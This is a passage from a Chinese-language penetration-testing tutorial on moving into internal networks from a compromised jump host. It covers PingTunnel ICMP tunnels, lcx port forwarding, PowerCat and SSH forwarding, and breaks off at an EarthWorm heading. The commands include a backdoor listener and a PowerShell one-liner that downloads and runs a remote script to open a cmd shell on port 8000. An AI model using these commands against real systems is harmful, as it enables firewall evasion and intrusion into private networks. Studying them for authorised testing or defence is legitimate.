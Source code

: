 [PingTunnel](http://freshmeat.sourceforge.net/projects/ptunnel/) 是一款基于 ICMP 协议的通信隧道工具。

ICMP 经常是被忽略的防火墙忽略的通信协议，所以有时可以通过它绕过防火墙的限制；另外还有一个更大好处是，通过 PingTunnel 可以间接访问到内网服务器。比如攻击者 A 攻下服务器 B，服务器 B 跟内网服务器 C 连通，但 A 无法直连 C，这时通过建立起 ICMP 隧道即可解决此问题。

它的使用方法如下：

* 先在跳板机（一般取开放 Web 的服务器，即最早被我们拿到 webshell 权限的服务器）上运行以下命令开启后门。

```java
ptunnel -x {连接密码}
```

* 再在攻击者机器上运行以下命令去连接。

```java
ptunnel -p {跳板机IP} -lp {本地监听端口} -da {目标IP} -dp {目标机器端口} -x {连接密码}
```

#### 2.lcx 端口转发

lcx 是一款常用的轻便的端口转发工具，它是基于 Socket 实现的，常用于转发数据到防火墙许可的服务器或端口上，其使用方法如下：

```java
＃将本机端口 111 的通信数据转发到本机端口 222
lcx.exe -listen 111 222
＃将目标机器端口3389的通信数据转发到公网机器端口4444
lcx.exe -slave {公网IP} 4444 127.0.0.1 3389
＃访问本地端口111即访问目标IP的3389端口
lcx.exe -tran 111 {目标IP} 3389
```

#### 3.PowerCat

PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：

```java
powershell "IEX (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat
-l -p 8000 -e cmd"
```

然后攻击者主动连接 8000 端口，即可获取 shell 权限。

#### 4.SSH

几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻击时就可以派上用场，用它来做代理和转发。

常用命令如下：

```java
＃通过跳板机访问目标IP
ssh -CNfg -L 2121:{目标IP}:21 root@{跳板机IP}
＃访问攻击者IP的2121端口，即是访问目标IP
ssh -CNfg -R 2121:BIP:{目标IP} root@{攻击者IP}
```

#### 5.EarthWorm

